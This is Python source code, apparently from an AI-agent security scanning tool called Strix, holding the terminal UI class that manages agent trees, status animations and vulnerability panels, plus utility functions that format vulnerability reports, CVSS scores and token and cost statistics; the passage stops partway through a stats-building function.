            agent_data = self.tracer.agents[self.selected_agent_id]
            content, keymap, should_animate = self._get_status_display_content(
                self.selected_agent_id, agent_data
            )

            if not content:
                self._safe_widget_operation(status_display.add_class, "hidden")
                return

            self._safe_widget_operation(status_text.update, content)
            self._safe_widget_operation(keymap_indicator.update, keymap)
            self._safe_widget_operation(status_display.remove_class, "hidden")

            if should_animate:
                self._start_dot_animation()

        except (KeyError, Exception):
            self._safe_widget_operation(status_display.add_class, "hidden")

    def _update_stats_display(self) -> None:
        try:
            stats_display = self.query_one("#stats_display", Static)
        except (ValueError, Exception):
            return

        if not self._is_widget_safe(stats_display):
            return

        if self.screen.selections:
            return

        stats_content = Text()

        stats_text = build_tui_stats_text(self.tracer, self.agent_config)
        if stats_text:
            stats_content.append(stats_text)

        version = get_package_version()
        stats_content.append(f"\nv{version}", style="white")

        self._safe_widget_operation(stats_display.update, stats_content)

    def _update_vulnerabilities_panel(self) -> None:
        """Update the vulnerabilities panel with current vulnerability data."""
        try:
            vuln_panel = self.query_one("#vulnerabilities_panel", VulnerabilitiesPanel)
        except (ValueError, Exception):
            return

        if not self._is_widget_safe(vuln_panel):
            return

        vulnerabilities = self.tracer.vulnerability_reports

        if not vulnerabilities:
            self._safe_widget_operation(vuln_panel.add_class, "hidden")
            return

        enriched_vulns = []
        for vuln in vulnerabilities:
            enriched = dict(vuln)
            report_id = vuln.get("id", "")
            agent_name = self._get_agent_name_for_vulnerability(report_id)
            if agent_name:
                enriched["agent_name"] = agent_name
            enriched_vulns.append(enriched)

        self._safe_widget_operation(vuln_panel.remove_class, "hidden")
        vuln_panel.update_vulnerabilities(enriched_vulns)

    def _get_agent_name_for_vulnerability(self, report_id: str) -> str | None:
        """Find the agent name that created a vulnerability report."""
        for _exec_id, tool_data in list(self.tracer.tool_executions.items()):
            if tool_data.get("tool_name") == "create_vulnerability_report":
                result = tool_data.get("result", {})
                if isinstance(result, dict) and result.get("report_id") == report_id:
                    agent_id = tool_data.get("agent_id")
                    if agent_id and agent_id in self.tracer.agents:
                        name: str = self.tracer.agents[agent_id].get("name", "Unknown Agent")
                        return name
        return None

    def _get_sweep_animation(self, color_palette: list[str]) -> Text:
        text = Text()
        num_squares = self._sweep_num_squares
        num_colors = len(color_palette)

        offset = num_colors - 1
        max_pos = (num_squares - 1) + offset
        total_range = max_pos + offset
        cycle_length = total_range * 2
        frame_in_cycle = self._spinner_frame_index % cycle_length

        wave_pos = total_range - abs(total_range - frame_in_cycle)
        sweep_pos = wave_pos - offset

        dot_color = "#0a3d1f"

        for i in range(num_squares):
            dist = abs(i - sweep_pos)
            color_idx = max(0, num_colors - 1 - dist)

            if color_idx == 0:
                text.append("·", style=Style(color=dot_color))
            else:
                color = color_palette[color_idx]
                text.append("▪", style=Style(color=color))

        text.append(" ")
        return text

    def _get_animated_verb_text(self, agent_id: str, verb: str) -> Text:  # noqa: ARG002
        text = Text()
        sweep = self._get_sweep_animation(self._sweep_colors)
        text.append_text(sweep)
        parts = verb.split(" ", 1)
        text.append(parts[0], style="white")
        if len(parts) > 1:
            text.append(" ", style="dim")
            text.append(parts[1], style="dim")
        return text

    def _start_dot_animation(self) -> None:
        if self._dot_animation_timer is None:
            self._dot_animation_timer = self.set_interval(0.06, self._animate_dots)

    def _stop_dot_animation(self) -> None:
        if self._dot_animation_timer is not None:
            self._dot_animation_timer.stop()
            self._dot_animation_timer = None

    def _animate_dots(self) -> None:
        has_active_agents = False

        if self.selected_agent_id and self.selected_agent_id in self.tracer.agents:
            agent_data = self.tracer.agents[self.selected_agent_id]
            status = agent_data.get("status", "running")
            if status in ["running", "waiting"]:
                has_active_agents = True
                num_colors = len(self._sweep_colors)
                offset = num_colors - 1
                max_pos = (self._sweep_num_squares - 1) + offset
                total_range = max_pos + offset
                cycle_length = total_range * 2
                self._spinner_frame_index = (self._spinner_frame_index + 1) % cycle_length
                self._update_agent_status_display()

        if not has_active_agents:
            has_active_agents = any(
                agent_data.get("status", "running") in ["running", "waiting"]
                for agent_data in self.tracer.agents.values()
            )

        if not has_active_agents:
            self._stop_dot_animation()
            self._spinner_frame_index = 0

    def _agent_has_real_activity(self, agent_id: str) -> bool:
        initial_tools = {"scan_start_info", "subagent_start_info"}

        for _exec_id, tool_data in list(self.tracer.tool_executions.items()):
            if tool_data.get("agent_id") == agent_id:
                tool_name = tool_data.get("tool_name", "")
                if tool_name not in initial_tools:
                    return True

        streaming = self.tracer.get_streaming_content(agent_id)
        return bool(streaming and streaming.strip())

    def _agent_vulnerability_count(self, agent_id: str) -> int:
        count = 0
        for _exec_id, tool_data in list(self.tracer.tool_executions.items()):
            if tool_data.get("agent_id") == agent_id:
                tool_name = tool_data.get("tool_name", "")
                if tool_name == "create_vulnerability_report":
                    status = tool_data.get("status", "")
                    if status == "completed":
                        result = tool_data.get("result", {})
                        if isinstance(result, dict) and result.get("success"):
                            count += 1
        return count

    def _gather_agent_events(self, agent_id: str) -> list[dict[str, Any]]:
        chat_events = [
            {
                "type": "chat",
                "timestamp": msg["timestamp"],
                "id": f"chat_{msg['message_id']}",
                "data": msg,
            }
            for msg in self.tracer.chat_messages
            if msg.get("agent_id") == agent_id
        ]

        tool_events = [
            {
                "type": "tool",
                "timestamp": tool_data["timestamp"],
                "id": f"tool_{exec_id}",
                "data": tool_data,
            }
            for exec_id, tool_data in list(self.tracer.tool_executions.items())
            if tool_data.get("agent_id") == agent_id
        ]

        events = chat_events + tool_events
        events.sort(key=lambda e: (e["timestamp"], e["id"]))
        return events

    def watch_selected_agent_id(self, _agent_id: str | None) -> None:
        if len(self.screen_stack) > 1 or self.show_splash:
            return

        if not self.is_mounted:
            return

        self._displayed_events.clear()
        self._streaming_render_cache.clear()
        self._last_streaming_len.clear()

        self.call_later(self._update_chat_view)
        self._update_agent_status_display()

    def _start_scan_thread(self) -> None:
        def scan_target() -> None:
            try:
                loop = asyncio.new_event_loop()
                asyncio.set_event_loop(loop)

                try:
                    agent = StrixAgent(self.agent_config)

                    if not self._scan_stop_event.is_set():
                        loop.run_until_complete(agent.execute_scan(self.scan_config))

                except (KeyboardInterrupt, asyncio.CancelledError):
                    logging.info("Scan interrupted by user")
                except (ConnectionError, TimeoutError):
                    logging.exception("Network error during scan")
                except RuntimeError:
                    logging.exception("Runtime error during scan")
                except Exception:
                    logging.exception("Unexpected error during scan")
                finally:
                    loop.close()
                    self._scan_completed.set()

            except Exception:
                logging.exception("Error setting up scan thread")
                self._scan_completed.set()

        self._scan_thread = threading.Thread(target=scan_target, daemon=True)
        self._scan_thread.start()

    def _add_agent_node(self, agent_data: dict[str, Any]) -> None:
        if len(self.screen_stack) > 1 or self.show_splash:
            return

        if not self.is_mounted:
            return

        agent_id = agent_data["id"]
        parent_id = agent_data.get("parent_id")
        status = agent_data.get("status", "running")

        try:
            agents_tree = self.query_one("#agents_tree", Tree)
        except (ValueError, Exception):
            return

        agent_name_raw = agent_data.get("name", "Agent")

        status_indicators = {
            "running": "⚪",
            "waiting": "⏸",
            "completed": "🟢",
            "failed": "🔴",
            "stopped": "■",
            "stopping": "○",
            "llm_failed": "🔴",
        }

        status_icon = status_indicators.get(status, "○")
        vuln_count = self._agent_vulnerability_count(agent_id)
        vuln_indicator = f" ({vuln_count})" if vuln_count > 0 else ""
        agent_name = f"{status_icon} {agent_name_raw}{vuln_indicator}"

        try:
            if parent_id and parent_id in self.agent_nodes:
                parent_node = self.agent_nodes[parent_id]
                agent_node = parent_node.add(
                    agent_name,
                    data={"agent_id": agent_id},
                )
                parent_node.allow_expand = True
            else:
                agent_node = agents_tree.root.add(
                    agent_name,
                    data={"agent_id": agent_id},
                )

            agent_node.allow_expand = False
            agent_node.expand()
            self.agent_nodes[agent_id] = agent_node

            if len(self.agent_nodes) == 1:
                agents_tree.select_node(agent_node)
                self.selected_agent_id = agent_id

            self._reorganize_orphaned_agents(agent_id)
        except (AttributeError, ValueError, RuntimeError) as e:
            import logging

            logging.warning(f"Failed to add agent node {agent_id}: {e}")

    def _expand_new_agent_nodes(self) -> None:
        if len(self.screen_stack) > 1 or self.show_splash:
            return

        if not self.is_mounted:
            return

    def _expand_all_agent_nodes(self) -> None:
        if len(self.screen_stack) > 1 or self.show_splash:
            return

        if not self.is_mounted:
            return

        try:
            agents_tree = self.query_one("#agents_tree", Tree)
            self._expand_node_recursively(agents_tree.root)
        except (ValueError, Exception):
            logging.debug("Tree not ready for expanding nodes")

    def _expand_node_recursively(self, node: TreeNode) -> None:
        if not node.is_expanded:
            node.expand()
        for child in node.children:
            self._expand_node_recursively(child)

    def _copy_node_under(self, node_to_copy: TreeNode, new_parent: TreeNode) -> None:
        agent_id = node_to_copy.data["agent_id"]
        agent_data = self.tracer.agents.get(agent_id, {})
        agent_name_raw = agent_data.get("name", "Agent")
        status = agent_data.get("status", "running")

        status_indicators = {
            "running": "⚪",
            "waiting": "⏸",
            "completed": "🟢",
            "failed": "🔴",
            "stopped": "■",
            "stopping": "○",
            "llm_failed": "🔴",
        }

        status_icon = status_indicators.get(status, "○")
        vuln_count = self._agent_vulnerability_count(agent_id)
        vuln_indicator = f" ({vuln_count})" if vuln_count > 0 else ""
        agent_name = f"{status_icon} {agent_name_raw}{vuln_indicator}"

        new_node = new_parent.add(
            agent_name,
            data=node_to_copy.data,
        )
        new_node.allow_expand = node_to_copy.allow_expand

        self.agent_nodes[agent_id] = new_node

        for child in node_to_copy.children:
            self._copy_node_under(child, new_node)

        if node_to_copy.is_expanded:
            new_node.expand()

    def _reorganize_orphaned_agents(self, new_parent_id: str) -> None:
        agents_to_move = []

        for agent_id, agent_data in list(self.tracer.agents.items()):
            if (
                agent_data.get("parent_id") == new_parent_id
                and agent_id in self.agent_nodes
                and agent_id != new_parent_id
            ):
                agents_to_move.append(agent_id)

        if not agents_to_move:
            return

        parent_node = self.agent_nodes[new_parent_id]

        for child_agent_id in agents_to_move:
            if child_agent_id in self.agent_nodes:
                old_node = self.agent_nodes[child_agent_id]

                if old_node.parent is parent_node:
                    continue

                self._copy_node_under(old_node, parent_node)

                old_node.remove()

        parent_node.allow_expand = True
        parent_node.expand()

    def _render_chat_content(self, msg_data: dict[str, Any]) -> Any:
        role = msg_data.get("role")
        content = msg_data.get("content", "")
        metadata = msg_data.get("metadata", {})

        if not content:
            return None

        if role == "user":
            return UserMessageRenderer.render_simple(content)

        if metadata.get("interrupted"):
            streaming_result = self._render_streaming_content(content)
            interrupted_text = Text()
            interrupted_text.append("\n")
            interrupted_text.append("⚠ ", style="yellow")
            interrupted_text.append("Interrupted by user", style="yellow dim")
            return self._merge_renderables([streaming_result, interrupted_text])

        return AgentMessageRenderer.render_simple(content)

    def _render_tool_content_simple(self, tool_data: dict[str, Any]) -> Any:
        tool_name = tool_data.get("tool_name", "Unknown Tool")
        args = tool_data.get("args", {})
        status = tool_data.get("status", "unknown")
        result = tool_data.get("result")

        renderer = get_tool_renderer(tool_name)

        if renderer:
            widget = renderer.render(tool_data)
            return widget.renderable

        text = Text()

        if tool_name in ("llm_error_details", "sandbox_error_details"):
            return self._render_error_details(text, tool_name, args)

        text.append("→ Using tool ")
        text.append(tool_name, style="bold blue")

        status_styles = {
            "running": ("●", "yellow"),
            "completed": ("✓", "green"),
            "failed": ("✗", "red"),
            "error": ("✗", "red"),
        }
        icon, style = status_styles.get(status, ("○", "dim"))
        text.append(" ")
        text.append(icon, style=style)

        if args:
            for k, v in list(args.items())[:5]:
                str_v = str(v)
                if len(str_v) > 500:
                    str_v = str_v[:497] + "..."
                text.append("\n  ")
                text.append(k, style="dim")
                text.append(": ")
                text.append(str_v)

        if status in ["completed", "failed", "error"] and result:
            result_str = str(result)
            if len(result_str) > 1000:
                result_str = result_str[:997] + "..."
            text.append("\n")
            text.append("Result: ", style="bold")
            text.append(result_str)

        return text

    def _render_error_details(self, text: Any, tool_name: str, args: dict[str, Any]) -> Any:
        if tool_name == "llm_error_details":
            text.append("✗ LLM Request Failed", style="red")
        else:
            text.append("✗ Sandbox Initialization Failed", style="red")
            if args.get("error"):
                text.append(f"\n{args['error']}", style="bold red")
        if args.get("details"):
            details = str(args["details"])
            if len(details) > 1000:
                details = details[:997] + "..."
            text.append("\nDetails: ", style="dim")
            text.append(details)
        return text

    @on(Tree.NodeHighlighted)  # type: ignore[misc]
    def handle_tree_highlight(self, event: Tree.NodeHighlighted) -> None:
        if len(self.screen_stack) > 1 or self.show_splash:
            return

        if not self.is_mounted:
            return

        node = event.node

        try:
            agents_tree = self.query_one("#agents_tree", Tree)
        except (ValueError, Exception):
            return

        if self.focused == agents_tree and node.data:
            agent_id = node.data.get("agent_id")
            if agent_id:
                self.selected_agent_id = agent_id

    @on(Tree.NodeSelected)  # type: ignore[misc]
    def handle_tree_node_selected(self, event: Tree.NodeSelected) -> None:
        if len(self.screen_stack) > 1 or self.show_splash:
            return

        if not self.is_mounted:
            return

        node = event.node

        if node.allow_expand:
            if node.is_expanded:
                node.collapse()
            else:
                node.expand()

    def _send_user_message(self, message: str) -> None:
        if not self.selected_agent_id:
            return

        if self.tracer:
            streaming_content = self.tracer.get_streaming_content(self.selected_agent_id)
            if streaming_content and streaming_content.strip():
                self.tracer.clear_streaming_content(self.selected_agent_id)
                self.tracer.interrupted_content[self.selected_agent_id] = streaming_content
                self.tracer.log_chat_message(
                    content=streaming_content,
                    role="assistant",
                    agent_id=self.selected_agent_id,
                    metadata={"interrupted": True},
                )

        try:
            from strix.tools.agents_graph.agents_graph_actions import _agent_instances

            if self.selected_agent_id in _agent_instances:
                agent_instance = _agent_instances[self.selected_agent_id]
                if hasattr(agent_instance, "cancel_current_execution"):
                    agent_instance.cancel_current_execution()
        except (ImportError, AttributeError, KeyError):
            pass

        if self.tracer:
            self.tracer.log_chat_message(
                content=message,
                role="user",
                agent_id=self.selected_agent_id,
            )

        try:
            from strix.tools.agents_graph.agents_graph_actions import send_user_message_to_agent

            send_user_message_to_agent(self.selected_agent_id, message)

        except (ImportError, AttributeError) as e:
            import logging

            logging.warning(f"Failed to send message to agent {self.selected_agent_id}: {e}")

        self._displayed_events.clear()
        self._update_chat_view()

        self.call_after_refresh(self._focus_chat_input)

    def _get_agent_name(self, agent_id: str) -> str:
        try:
            if self.tracer and agent_id in self.tracer.agents:
                agent_name = self.tracer.agents[agent_id].get("name")
                if isinstance(agent_name, str):
                    return agent_name
        except (KeyError, AttributeError) as e:
            logging.warning(f"Could not retrieve agent name for {agent_id}: {e}")
        return "Unknown Agent"

    def action_toggle_help(self) -> None:
        if self.show_splash or not self.is_mounted:
            return

        try:
            self.query_one("#main_container")
        except (ValueError, Exception):
            return

        if isinstance(self.screen, HelpScreen):
            self.pop_screen()
            return

        if len(self.screen_stack) > 1:
            return

        self.push_screen(HelpScreen())

    def action_request_quit(self) -> None:
        if self.show_splash or not self.is_mounted:
            self.action_custom_quit()
            return

        if len(self.screen_stack) > 1:
            return

        try:
            self.query_one("#main_container")
        except (ValueError, Exception):
            self.action_custom_quit()
            return

        self.push_screen(QuitScreen())

    def action_stop_selected_agent(self) -> None:
        if self.show_splash or not self.is_mounted:
            return

        if len(self.screen_stack) > 1:
            self.pop_screen()
            return

        if not self.selected_agent_id:
            return

        agent_name, should_stop = self._validate_agent_for_stopping()
        if not should_stop:
            return

        try:
            self.query_one("#main_container")
        except (ValueError, Exception):
            return

        self.push_screen(StopAgentScreen(agent_name, self.selected_agent_id))

    def _validate_agent_for_stopping(self) -> tuple[str, bool]:
        agent_name = "Unknown Agent"

        try:
            if self.tracer and self.selected_agent_id in self.tracer.agents:
                agent_data = self.tracer.agents[self.selected_agent_id]
                agent_name = agent_data.get("name", "Unknown Agent")

                agent_status = agent_data.get("status", "running")
                if agent_status not in ["running"]:
                    return agent_name, False

                agent_events = self._gather_agent_events(self.selected_agent_id)
                if not agent_events:
                    return agent_name, False

                return agent_name, True

        except (KeyError, AttributeError, ValueError) as e:
            import logging

            logging.warning(f"Failed to gather agent events: {e}")

        return agent_name, False

    def action_confirm_stop_agent(self, agent_id: str) -> None:
        self.pop_screen()

        try:
            from strix.tools.agents_graph.agents_graph_actions import stop_agent

            result = stop_agent(agent_id)

            import logging

            if result.get("success"):
                logging.info(f"Stop request sent to agent: {result.get('message', 'Unknown')}")
            else:
                logging.warning(f"Failed to stop agent: {result.get('error', 'Unknown error')}")

        except Exception:
            import logging

            logging.exception(f"Failed to stop agent {agent_id}")

    def action_custom_quit(self) -> None:
        if self._scan_thread and self._scan_thread.is_alive():
            self._scan_stop_event.set()

            self._scan_thread.join(timeout=1.0)

        self.tracer.cleanup()

        self.exit()

    def _is_widget_safe(self, widget: Any) -> bool:
        try:
            _ = widget.screen
        except (AttributeError, ValueError, Exception):
            return False
        else:
            return bool(widget.is_mounted)

    def _safe_widget_operation(
        self, operation: Callable[..., Any], *args: Any, **kwargs: Any
    ) -> bool:
        try:
            operation(*args, **kwargs)
        except (AttributeError, ValueError, Exception):
            return False
        else:
            return True

    def on_resize(self, event: events.Resize) -> None:
        if self.show_splash or not self.is_mounted:
            return

        try:
            sidebar = self.query_one("#sidebar", Vertical)
            chat_area = self.query_one("#chat_area_container", Vertical)
        except (ValueError, Exception):
            return

        if event.size.width < self.SIDEBAR_MIN_WIDTH:
            sidebar.add_class("-hidden")
            chat_area.add_class("-full-width")
        else:
            sidebar.remove_class("-hidden")
            chat_area.remove_class("-full-width")

    def on_mouse_up(self, _event: events.MouseUp) -> None:
        self.set_timer(0.05, self._auto_copy_selection)

    _ICON_PREFIXES: ClassVar[tuple[str, ...]] = (
        "🐞 ",
        "🌐 ",
        "📋 ",
        "🧠 ",
        "◆ ",
        "◇ ",
        "◈ ",
        "→ ",
        "○ ",
        "● ",
        "✓ ",
        "✗ ",
        "⚠ ",
        "▍ ",
        "▍",
        "┃ ",
        "• ",
        ">_ ",
        "</> ",
        "<~> ",
        "[ ] ",
        "[~] ",
        "[•] ",
    )

    _DECORATIVE_LINES: ClassVar[frozenset[str]] = frozenset(
        {
            "● In progress...",
            "✓ Done",
            "✗ Failed",
            "✗ Error",
            "○ Unknown",
        }
    )

    @staticmethod
    def _clean_copied_text(text: str) -> str:
        lines = text.split("\n")
        cleaned: list[str] = []
        for line in lines:
            stripped = line.lstrip()
            if stripped in StrixTUIApp._DECORATIVE_LINES:
                continue
            if stripped and all(c == "─" for c in stripped):
                continue
            out = line
            for prefix in StrixTUIApp._ICON_PREFIXES:
                if stripped.startswith(prefix):
                    leading = line[: len(line) - len(line.lstrip())]
                    out = leading + stripped[len(prefix) :]
                    break
            cleaned.append(out)
        return "\n".join(cleaned)

    def _auto_copy_selection(self) -> None:
        copied = False

        try:
            if self.screen.selections:
                selected = self.screen.get_selected_text()
                self.screen.clear_selection()
                if selected and selected.strip():
                    cleaned = self._clean_copied_text(selected)
                    self.copy_to_clipboard(cleaned if cleaned.strip() else selected)
                    copied = True
        except Exception:  # noqa: BLE001
            logger.debug("Failed to copy screen selection", exc_info=True)

        if not copied:
            try:
                chat_input = self.query_one("#chat_input", ChatTextArea)
                selected = chat_input.selected_text
                if selected and selected.strip():
                    self.copy_to_clipboard(selected)
                    chat_input.move_cursor(chat_input.cursor_location)
                    copied = True
            except Exception:  # noqa: BLE001
                logger.debug("Failed to copy chat input selection", exc_info=True)

        if copied:
            self.notify("Copied to clipboard", timeout=2)


async def run_tui(args: argparse.Namespace) -> None:
    """Run strix in interactive TUI mode with textual."""
    app = StrixTUIApp(args)
    await app.run_async()
```

## File: `strix/interface/utils.py`
```python
import ipaddress
import json
import re
import secrets
import shutil
import subprocess
import sys
import tempfile
from pathlib import Path
from typing import Any
from urllib.error import HTTPError, URLError
from urllib.parse import urlparse
from urllib.request import Request, urlopen

import docker
from docker.errors import DockerException, ImageNotFound
from rich.console import Console
from rich.panel import Panel
from rich.text import Text


# Token formatting utilities
def format_token_count(count: float) -> str:
    count = int(count)
    if count >= 1_000_000:
        return f"{count / 1_000_000:.1f}M"
    if count >= 1_000:
        return f"{count / 1_000:.1f}K"
    return str(count)


# Display utilities
def get_severity_color(severity: str) -> str:
    severity_colors = {
        "critical": "#dc2626",
        "high": "#ea580c",
        "medium": "#d97706",
        "low": "#65a30d",
        "info": "#0284c7",
    }
    return severity_colors.get(severity, "#6b7280")


def get_cvss_color(cvss_score: float) -> str:
    if cvss_score >= 9.0:
        return "#dc2626"
    if cvss_score >= 7.0:
        return "#ea580c"
    if cvss_score >= 4.0:
        return "#d97706"
    if cvss_score >= 0.1:
        return "#65a30d"
    return "#6b7280"


def format_vulnerability_report(report: dict[str, Any]) -> Text:  # noqa: PLR0912, PLR0915
    """Format a vulnerability report for CLI display with all rich fields."""
    field_style = "bold #4ade80"

    text = Text()

    title = report.get("title", "")
    if title:
        text.append("Vulnerability Report", style="bold #ea580c")
        text.append("\n\n")
        text.append("Title: ", style=field_style)
        text.append(title)

    severity = report.get("severity", "")
    if severity:
        text.append("\n\n")
        text.append("Severity: ", style=field_style)
        severity_color = get_severity_color(severity.lower())
        text.append(severity.upper(), style=f"bold {severity_color}")

    cvss = report.get("cvss")
    if cvss is not None:
        text.append("\n\n")
        text.append("CVSS Score: ", style=field_style)
        cvss_color = get_cvss_color(cvss)
        text.append(f"{cvss:.1f}", style=f"bold {cvss_color}")

    target = report.get("target")
    if target:
        text.append("\n\n")
        text.append("Target: ", style=field_style)
        text.append(target)

    endpoint = report.get("endpoint")
    if endpoint:
        text.append("\n\n")
        text.append("Endpoint: ", style=field_style)
        text.append(endpoint)

    method = report.get("method")
    if method:
        text.append("\n\n")
        text.append("Method: ", style=field_style)
        text.append(method)

    cve = report.get("cve")
    if cve:
        text.append("\n\n")
        text.append("CVE: ", style=field_style)
        text.append(cve)

    cvss_breakdown = report.get("cvss_breakdown", {})
    if cvss_breakdown:
        text.append("\n\n")
        cvss_parts = []
        if cvss_breakdown.get("attack_vector"):
            cvss_parts.append(f"AV:{cvss_breakdown['attack_vector']}")
        if cvss_breakdown.get("attack_complexity"):
            cvss_parts.append(f"AC:{cvss_breakdown['attack_complexity']}")
        if cvss_breakdown.get("privileges_required"):
            cvss_parts.append(f"PR:{cvss_breakdown['privileges_required']}")
        if cvss_breakdown.get("user_interaction"):
            cvss_parts.append(f"UI:{cvss_breakdown['user_interaction']}")
        if cvss_breakdown.get("scope"):
            cvss_parts.append(f"S:{cvss_breakdown['scope']}")
        if cvss_breakdown.get("confidentiality"):
            cvss_parts.append(f"C:{cvss_breakdown['confidentiality']}")
        if cvss_breakdown.get("integrity"):
            cvss_parts.append(f"I:{cvss_breakdown['integrity']}")
        if cvss_breakdown.get("availability"):
            cvss_parts.append(f"A:{cvss_breakdown['availability']}")
        if cvss_parts:
            text.append("CVSS Vector: ", style=field_style)
            text.append("/".join(cvss_parts), style="dim")

    description = report.get("description")
    if description:
        text.append("\n\n")
        text.append("Description", style=field_style)
        text.append("\n")
        text.append(description)

    impact = report.get("impact")
    if impact:
        text.append("\n\n")
        text.append("Impact", style=field_style)
        text.append("\n")
        text.append(impact)

    technical_analysis = report.get("technical_analysis")
    if technical_analysis:
        text.append("\n\n")
        text.append("Technical Analysis", style=field_style)
        text.append("\n")
        text.append(technical_analysis)

    poc_description = report.get("poc_description")
    if poc_description:
        text.append("\n\n")
        text.append("PoC Description", style=field_style)
        text.append("\n")
        text.append(poc_description)

    poc_script_code = report.get("poc_script_code")
    if poc_script_code:
        text.append("\n\n")
        text.append("PoC Code", style=field_style)
        text.append("\n")
        text.append(poc_script_code, style="dim")

    code_locations = report.get("code_locations")
    if code_locations:
        text.append("\n\n")
        text.append("Code Locations", style=field_style)
        for i, loc in enumerate(code_locations):
            text.append("\n\n")
            text.append(f"  Location {i + 1}: ", style="dim")
            text.append(loc.get("file", "unknown"), style="bold")
            start = loc.get("start_line")
            end = loc.get("end_line")
            if start is not None:
                if end and end != start:
                    text.append(f":{start}-{end}")
                else:
                    text.append(f":{start}")
            if loc.get("label"):
                text.append(f"\n  {loc['label']}", style="italic dim")
            if loc.get("snippet"):
                text.append("\n  ")
                text.append(loc["snippet"], style="dim")
            if loc.get("fix_before") or loc.get("fix_after"):
                text.append("\n  Fix:")
                if loc.get("fix_before"):
                    text.append("\n  - ", style="dim")
                    text.append(loc["fix_before"], style="dim")
                if loc.get("fix_after"):
                    text.append("\n  + ", style="dim")
                    text.append(loc["fix_after"], style="dim")

    remediation_steps = report.get("remediation_steps")
    if remediation_steps:
        text.append("\n\n")
        text.append("Remediation", style=field_style)
        text.append("\n")
        text.append(remediation_steps)

    return text


def _build_vulnerability_stats(stats_text: Text, tracer: Any) -> None:
    """Build vulnerability section of stats text."""
    vuln_count = len(tracer.vulnerability_reports)

    if vuln_count > 0:
        severity_counts = {"critical": 0, "high": 0, "medium": 0, "low": 0, "info": 0}
        for report in tracer.vulnerability_reports:
            severity = report.get("severity", "").lower()
            if severity in severity_counts:
                severity_counts[severity] += 1

        stats_text.append("Vulnerabilities  ", style="bold red")

        severity_parts = []
        for severity in ["critical", "high", "medium", "low", "info"]:
            count = severity_counts[severity]
            if count > 0:
                severity_color = get_severity_color(severity)
                severity_text = Text()
                severity_text.append(f"{severity.upper()}: ", style=severity_color)
                severity_text.append(str(count), style=f"bold {severity_color}")
                severity_parts.append(severity_text)

        for i, part in enumerate(severity_parts):
            stats_text.append(part)
            if i < len(severity_parts) - 1:
                stats_text.append(" | ", style="dim white")

        stats_text.append(" (Total: ", style="dim white")
        stats_text.append(str(vuln_count), style="bold yellow")
        stats_text.append(")", style="dim white")
        stats_text.append("\n")
    else:
        stats_text.append("Vulnerabilities  ", style="bold #22c55e")
        stats_text.append("0", style="bold white")
        stats_text.append(" (No exploitable vulnerabilities detected)", style="dim green")
        stats_text.append("\n")


def _build_llm_stats(stats_text: Text, total_stats: dict[str, Any]) -> None:
    """Build LLM usage section of stats text."""
    if total_stats["requests"] > 0:
        stats_text.append("\n")
        stats_text.append("Input Tokens ", style="dim")
        stats_text.append(format_token_count(total_stats["input_tokens"]), style="white")

        if total_stats["cached_tokens"] > 0:
            stats_text.append("  ·  ", style="dim white")
            stats_text.append("Cached Tokens ", style="dim")
            stats_text.append(format_token_count(total_stats["cached_tokens"]), style="white")

        stats_text.append("  ·  ", style="dim white")
        stats_text.append("Output Tokens ", style="dim")
        stats_text.append(format_token_count(total_stats["output_tokens"]), style="white")

        if total_stats["cost"] > 0:
            stats_text.append(" · ", style="dim white")
            stats_text.append("Cost ", style="dim")
            stats_text.append(f"${total_stats['cost']:.4f}", style="bold #fbbf24")
    else:
        stats_text.append("\n")
        stats_text.append("Cost ", style="dim")
        stats_text.append("$0.0000 ", style="#fbbf24")
        stats_text.append("· ", style="dim white")
        stats_text.append("Tokens ", style="dim")
        stats_text.append("0", style="white")


def build_final_stats_text(tracer: Any) -> Text:
    """Build stats text for final output with detailed messages and LLM usage."""
    stats_text = Text()
    if not tracer:
        return stats_text

    _build_vulnerability_stats(stats_text, tracer)

    tool_count = tracer.get_real_tool_count()
    agent_count = len(tracer.agents)

    stats_text.append("Agents", style="dim")
    stats_text.append("  ")
    stats_text.append(str(agent_count), style="bold white")
    stats_text.append("  ·  ", style="dim white")
    stats_text.append("Tools", style="dim")
    stats_text.append("  ")
    stats_text.append(str(tool_count), style="bold white")

    llm_stats = tracer.get_total_llm_stats()
    _build_llm_stats(stats_text, llm_stats["total"])

    return stats_text


def build_live_stats_text(tracer: Any, agent_config: dict[str, Any] | None = None) -> Text:
    stats_text = Text()
    if not tracer:
        return stats_text

    if agent_config:
        llm_config = agent_config["llm_config"]
        model = getattr(llm_config, "model_name", "Unknown")
        stats_text.append("Model ", style="dim")
        stats_text.append(model, style="white")
        stats_text.append("\n")

    vuln_count = len(tracer.vulnerability_reports)
    tool_count = tracer.get_real_tool_count()
    agent_count = len(tracer.agents)

    stats_text.append("Vulnerabilities ", style="dim")
    stats_text.append(f"{vuln_count}", style="white")
    stats_text.append("\n")
    if vuln_count > 0:
        severity_counts = {"critical": 0, "high": 0, "medium": 0, "low": 0, "info": 0}
        for report in tracer.vulnerability_reports:
            severity = report.get("severity", "").lower()
            if severity in severity_counts:
                severity_counts[severity] += 1

        severity_parts = []
        for severity in ["critical", "high", "medium", "low", "info"]:
            count = severity_counts[severity]
            if count > 0:
                severity_color = get_severity_color(severity)
                severity_text = Text()
                severity_text.append(f"{severity.upper()}: ", style=severity_color)
                severity_text.append(str(count), style=f"bold {severity_color}")
                severity_parts.append(severity_text)

        for i, part in enumerate(severity_parts):
            stats_text.append(part)
            if i < len(severity_parts) - 1:
                stats_text.append(" | ", style="dim white")

        stats_text.append("\n")

    stats_text.append("Agents ", style="dim")
    stats_text.append(str(agent_count), style="white")
    stats_text.append("  ·  ", style="dim white")
    stats_text.append("Tools ", style="dim")
    stats_text.append(str(tool_count), style="white")

    llm_stats = tracer.get_total_llm_stats()
    total_stats = llm_stats["total"]

    stats_text.append("\n")

    stats_text.append("Input Tokens ", style="dim")
    stats_text.append(format_token_count(total_stats["input_tokens"]), style="white")

    stats_text.append("  ·  ", style="dim white")
    stats_text.append("Cached Tokens ", style="dim")
    stats_text.append(format_token_count(total_stats["cached_tokens"]), style="white")

    stats_text.append("\n")

    stats_text.append("Output Tokens ", style="dim")
    stats_text.append(format_token_count(total_stats["output_tokens"]), style="white")

    stats_text.append("  ·  ", style="dim white")
    stats_text.append("Cost ", style="dim")
    stats_text.append(f"${total_stats['cost']:.4f}", style="#fbbf24")

    return stats_text


def build_tui_stats_text(tracer: Any, agent_config: dict[str, Any] | None = None) -> Text:
    stats_text = Text()
    if not tracer:
        return stats_text

    if agent_config:
        llm_config = agent_config["llm_config"]
        model = getattr(llm_config, "model_name", "Unknown")
        stats_text.append(model, style="white")

    llm_stats = tracer.get_total_llm_stats()
    total_stats = llm_stats["total"]

